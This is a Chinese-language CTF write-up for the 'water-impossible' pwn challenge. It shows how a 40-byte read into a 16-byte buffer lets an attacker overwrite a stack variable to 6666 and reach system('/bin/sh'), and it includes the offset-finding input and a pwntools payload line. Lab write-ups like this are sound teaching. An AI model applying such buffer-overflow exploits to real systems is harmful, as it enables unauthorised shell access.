 # water-impossible

> Challenge Link: [water-impossible](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#water-impossible)
>
> Category: pwn

Welcome !! Challenger ~

Here is a simple challenge for you.

Try to find the key to pass.

`nc bamboofox.cs.nctu.edu.tw 58799`

[water-impossible.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/bb63dedd19b55a8fab5a08f28dea6269/water-impossible.zip)

## 觀察

觀察一下code後可以發現觸發`system("/bin/sh")`的條件為`(int)token == 6666`

而token是一個宣告在`main`但從未被使用到的變數

```c
if((int)token == 6666){
  printf("wow, That's impossible to touch this token ?!");
  system("/bin/sh");
}
```

另外可以被exploit的部份為`read()`的 buffer overflow

```c
char key[16];
read(0, key, 40);
```

通常這類題目可能的作法有以下兩種

### 蓋 return

如果stack一直往下蓋的話可以碰到`return`，那就直接跳到`system("/bin/sh")`就好了

不過這題有限制長度40，所以沒辦法蓋到return

### 蓋 token

因為`token`也是宣告在stack上，應該可以找到`token`的位置後直接蓋成想要的值

## 解法

以下解法是用蓋token的方法

### 找 paylod 長度

先輸入以下字串來定位

```
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF
```

到`if((int)token == 6666)`時 stack 狀態如下

![](https://i.imgur.com/0wDePvP.png)

上圖可以看到`token`的位置以及內容是`[rbp-0x4] : 0x7fffffffdf1c ("DDDDEEEEEEEE0آ\367\377\177")`

由此可知到`token`之前，所需要的 payload 長度是 **28** ，也就是

```
AAAAAAAABBBBBBBBCCCCCCCCDDDD
```

### 蓋token的值

因為這支程式是在 **64位元** 的環境編譯的，所以送的時候要給64位元的位址，使用 pwntool 的話只要用`p64()`就可以囉

```python
r.sendline(payload + p64(0x1a0a))
```
